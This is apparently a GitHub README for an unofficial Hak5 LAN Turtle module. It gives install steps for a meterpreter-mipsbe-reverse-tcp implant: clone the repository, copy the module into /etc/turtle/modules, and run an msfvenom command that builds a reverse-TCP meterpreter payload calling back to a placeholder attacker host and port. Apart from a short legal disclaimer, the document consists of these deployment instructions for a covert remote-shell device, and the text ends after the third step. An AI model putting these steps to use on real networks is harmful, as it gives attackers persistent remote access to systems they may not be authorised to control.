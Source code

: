 ## Unofficial custom Hak5 LAN Turtle Module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use of this module, remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - Download module from github**<br />
`git clone https://github.com/ATTACKnDEFEND/LanTurtlemeterpreter-mipsbe-reverse-tcp`

**2 - copy meterpreter-mipsbe-reverse-tcp to Hak5 Turtle modules directory**<br />
`copy meterpreter-mipsbe-reverse-tcp /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`

**3 - On Kali generate Meterpreter payload with Msfvenom**<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f elf > meterpreter-mipsbe-reverse-tcp`







